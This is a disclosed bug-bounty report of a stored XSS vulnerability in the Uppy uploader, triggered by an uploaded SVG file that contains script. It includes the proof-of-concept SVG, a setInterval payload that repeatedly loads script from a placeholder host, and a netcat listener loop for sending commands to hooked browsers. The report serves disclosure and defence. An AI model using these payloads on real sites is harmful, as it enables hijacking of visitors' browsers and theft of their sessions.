# [uppy] Stored XSS due to crafted SVG file

## Report Details
- **Report ID**: 311998
- **URL**: https://hackerone.com/reports/311998
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-03T20:55:04.073Z
- **Disclosed**: 2018-03-01T19:11:29.110Z

## Reporter
- **Username**: alyssa_herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

**Module:** 
[Uppy](https://www.npmjs.com/package/uppy/ "Uppy").
 Affected version: 0.22.2 (current build)
**Summary:** Uppy is a modular file uploader for node js . Due to insecure handling of SVG image files, an attacker could upload a crafted SVG file and perform a stored XSS with Dom access. SVG can use JavaScript in them and still be treated as images by the website, special care is needed to be taken with SVG files to prevent stored xss.

**Description:** We can create a svg file with the following code. 
```<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.location);
   </script>
</svg>```
Then save as svg and upload to our application then click to visit the page. We can create an alert box with access to Dom enabling cooking theft or other forms of attacks such as serving malicious software.

## Steps To Reproduce:
I used [the sample code for their dashboard](https://uppy.io/examples/dashboard// "With a Title") to test this proof of concept on my own server. We go to our dashboard and click file from our computer then select our crafted SVG file then click the upload. Then click our SVG file to be taken to where it was uploaded and receive an alert box with the web page's location.

## Impact: An adversary can leverage this vulnerability to enable a persistent java script execution on the web page which can then lead to performing malicious actions without user knowledge.

## Impact

An adversary can leverage this vulnerability to hook user's browsers and send java script commands to it interactively thus leading to further compromise of the user or users who visit this webpage . An example of this would being using ```setInterval(function(){with(document)body.
appendChild(createElement('script')).src='//HOST:5855'},100)```
Then setting a listener on our host unix host with the following command, ```while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done``

## Attachments
- SVG_XSS.svg
